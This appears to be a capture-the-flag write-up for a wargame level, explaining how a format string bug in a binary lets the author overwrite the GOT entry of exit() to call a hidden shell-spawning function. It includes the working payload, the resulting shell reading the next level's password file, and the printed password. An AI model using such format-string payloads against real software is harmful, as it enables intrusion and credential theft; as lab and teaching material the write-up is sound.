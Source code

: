 # Level5

> For introductory information on this operating system and binary securities, check [here](./Ressources/README.md).

Let's see what does the binary do.

```shell
  $> ./level5
  teststring
  teststring
```

> It looks like this is similar to the previous level...

Using [`gdb`](https://linux.die.net/man/1/gdb), we can dig through the binary to understand what's going on (full analysis [here](./Ressources/gdb.md)). At first glance it appears that a **buffer overflow** won't be possible here since the program uses [`fgets()`](https://linux.die.net/man/3/fgets) and reads up to **512** bytes while the buffer is **520** bytes long.

After some deeper analysis, we find that there is a built-in way to spawn a shell within this program but the function were this logic happens is never called. Since the program don't return to the main at the end of execution but calls for `exit()`, we could use what's called a [GOT overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.


The process is as follows:

- Get the address of `exit()` in the Global Offset Table.
- Get the address of the function we want to run, `o()` in our case.
- Find the stack argument representing the format string.
- Overwrite the call to `exit()` by the address of `o()`.

Thanks to our `gdb` analysis we get:

- `exit()` function: `0x08049838`.
- `o()` function: `0x080484a4`.

Since these two addresses share the same two high order bytes we can take a shortcut here. We can update only the low order bytes so that `o()` would be executed making the **format string** a bit shorter and more readable.

Like before let's, first, identify which positional argument is our input.

```shell
  $> python -c 'print "AAAA" + " %p" * 8' | ./level5
  AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520
```

> This time our input is the 4th stack argument.

Now that we know the format string position in the stack all we have to do is to create a **33956** character long string containing the address of `exit()` to match the lower order bytes from `o()` address and output its low order bytes using `%hn`.

```shell
  $> (python -c 'print "\x08\x04\x98\x38"[::-1] + "%33952c%4$hn"'; cat) | ./level5    
  ...
  cat /home/user/level6/.pass 
  d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

> We, first, write the address of `exit()`, which is already **4** bytes, so using `%33952c` will add **33952** spaces as padding resulting in a **33956** character long string. Then all we have to do is output the number of character printed until this point using `%hn` into the 4th positional stack argument low order bytes we want to change using `%4$`.

So next user credentials pair is `level6:d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31`.

Check [here](./source.c) for reproduction source-code of this binary.